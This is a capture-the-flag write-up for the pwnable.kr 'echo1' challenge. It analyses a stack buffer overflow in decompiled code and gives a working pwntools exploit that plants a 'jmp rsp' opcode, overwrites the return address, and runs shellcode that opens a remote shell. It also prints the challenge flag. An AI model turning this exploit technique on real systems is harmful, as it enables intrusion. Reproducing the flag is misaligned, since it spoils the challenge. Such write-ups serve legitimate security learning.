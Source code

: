 # echo1

## Description

echo1 - 25 pt

> Pwn this echo service. <br><br>
> download : http://pwnable.kr/bin/echo1 <br><br>
> Running at : nc pwnable.kr 9010


## Solution

### Understanding the binary

Let's start by checking what kind of file it is:

```bash
$ file login
echo1: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.24, BuildID[sha1]=fa367b7e8f66b68737a56333996d80f0d72e54ea, not stripped
```

Nothing special here. Now, let's check the security features:

```bash
$ checksec --file=login
RELRO           STACK CANARY      NX            PIE
Partial RELRO   No canary found   NX disabled   No PIE
```

It looks like there are no standard mitigations enabled. Usually, when the NX bit is not set and there is no stack canary, we'll need to return to the stack and execute shellcode.

For now, let's stop speculating and check the binary in IDA.

**main:**
```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  _QWORD *v3; // rax
  unsigned int i; // [rsp+Ch] [rbp-24h] BYREF
  _QWORD v6[4]; // [rsp+10h] [rbp-20h] BYREF

  setvbuf(stdout, 0LL, 2, 0LL);
  setvbuf(stdin, 0LL, 1, 0LL);
  o = malloc(0x28uLL);
  *((_QWORD *)o + 3) = greetings;
  *((_QWORD *)o + 4) = byebye;
  printf("hey, what's your name? : ");
  __isoc99_scanf("%24s", v6);
  v3 = o;
  *(_QWORD *)o = v6[0];
  v3[1] = v6[1];
  v3[2] = v6[2];
  id = v6[0];
  getchar();
  func[0] = (__int64)echo1;
  qword_602088 = (__int64)echo2;
  qword_602090 = (__int64)echo3;
  for ( i = 0; i != 121; i = getchar() )
  {
    while ( 1 )
    {
      while ( 1 )
      {
        puts("\n- select echo type -");
        puts("- 1. : BOF echo");
        puts("- 2. : FSB echo");
        puts("- 3. : UAF echo");
        puts("- 4. : exit");
        printf("> ");
        __isoc99_scanf("%d", &i);
        getchar();
        if ( i > 3 )
          break;
        ((void (*)(void))func[i - 1])();
      }
      if ( i == 4 )
        break;
      puts("invalid menu");
    }
    cleanup();
    printf("Are you sure you want to exit? (y/n)");
  }
  puts("bye");
  return 0;
}
```

**echo1:**
```
__int64 echo1()
{
  char s[32]; // [rsp+0h] [rbp-20h] BYREF

  (*((void (__fastcall **)(void *))o + 3))(o);
  get_input(s, 128LL);
  puts(s);
  (*((void (__fastcall **)(void *))o + 4))(o);
  return 0LL;
}
```

**echo2:**
```
__int64 echo2()
{
  puts("not supported");
  return 0LL;
}
```
echo3 is the same, byebye and greetings are simply printing strings, and get_input is a wrapper for fgets.

The program allocates a 5 * 8 bytes buffer (or in other words, a buffer that stores 5 addresses). In the last two indexes of the buffer, it stores the addresses of the `greetings` and `byebye` functions. Then, it reads 24 bytes from the user into the first three indexes of the buffer, and stores the first 8 bytes of the buffer at `id`.

After that, the program enters a loop in which it prompts the use for an index, and according to that index it does one of the following:
* calls `echo1`
* calls `echo2`
* calls `echo3`
* exists the loop

### Exploit

Most of the code is irrelevant, so let's focus on the important part. In `echo1` the program calls `get_input` with a buffer of size 128, on a buffer of size 32. 

Our goal is to overwrite the return address of `echo1` with the address of some `jmp rsp` call and then, overwrite the following bytes with shellcode calling `execve("/bin/sh", 0, 0)`.

And so, the challenge is to find a `jmp rsp` gadget in the binary. Unfourtenatly, running `ROPgadget` doesn't yield anything useful, and so does searching the binary for the bytes `FF E4` (the opcode of `jmp rsp`) with  `next(elf.search(asm('jmp rsp')))`. 

However, we can go in a different approach. Instead of searching for a `jmp rsp` gadget, we build ourselves one! Remember that the first 8 bytes of the input are saved at `id`. We can save there the opecode of `jmp rsp` and then overwrite the return address with the address of `id`. 

**Note:** When running the exploit on a local copy of the binary, it might not work for you. On older kernels, when compiling the executable with `-zexecstack` (making the stack executable), the data sections might be loaded as executable too (Which is why or exploit works on the pwnable.kr server). However, they might not be executable on newer kernels.

### Exploit code

```python
from pwn import *

elf = context.binary = ELF('./echo1')
conn = remote('pwnable.kr', 9010)

open_shell = asm(shellcraft.amd64.linux.sh())
jmp_rsp = asm('jmp rsp')

# give "jmp rsp" opcode as name to be saved under id
conn.sendline(jmp_rsp) 

# choose BOF echo 
conn.sendline(b'1')

# overwriting retaddr with the adress of id and the rest of the stack with shellcode 
conn.sendline(b'A' * 40 + p64(0x6020A0) + open_shell)

conn.interactive()
```

```
H4d_som3_fun_w1th_ech0_ov3rfl0w
```